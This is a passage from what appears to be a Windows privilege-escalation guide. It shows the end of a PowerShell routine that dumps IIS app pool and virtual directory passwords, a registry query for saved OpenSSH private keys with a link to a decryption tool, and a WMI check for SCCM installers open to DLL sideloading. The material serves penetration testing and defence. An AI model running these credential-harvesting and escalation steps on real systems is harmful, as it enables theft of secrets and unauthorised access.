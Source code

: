 ```bash
                $Null = $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')
            }
        }

        # Check if any passwords were found
        if( $DataTable.rows.Count -gt 0 ) {
            # Display results in list view that can feed into the pipeline
            $DataTable |  Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique
        }
        else {
            # Status user
            Write-Verbose 'No application pool or virtual directory passwords were found.'
            $False
        }
    }
    else {
        Write-Verbose 'Appcmd.exe does not exist in the default location.'
        $False
    }
    $ErrorActionPreference = $OrigError
}
```

### SSH keys in registry

SSH private keys can be stored inside the registry key `HKCU\Software\OpenSSH\Agent\Keys`  so you should check if there is anything interesting in there:

```text
reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

If you find any entry inside that path it will probably be a saved SSH key. It is stored encrypted but can be easily decrypted using [https://github.com/ropnop/windows\_sshagent\_extract](https://github.com/ropnop/windows_sshagent_extract).

More information about this technique here: [https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

### SCClient / SCCM

Check if `C:\Windows\CCM\SCClient.exe` exists .  
Installers are **run with SYSTEM privileges**, many are vulnerable to **DLL Sideloading \(Info from** [**https://github.com/enjoiz/Privesc**](https://github.com/enjoiz/Privesc)**\).**

```text
$result = Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | select Name,SoftwareVersion
if ($result) { $result }
else { Write "Not Installed." }
```
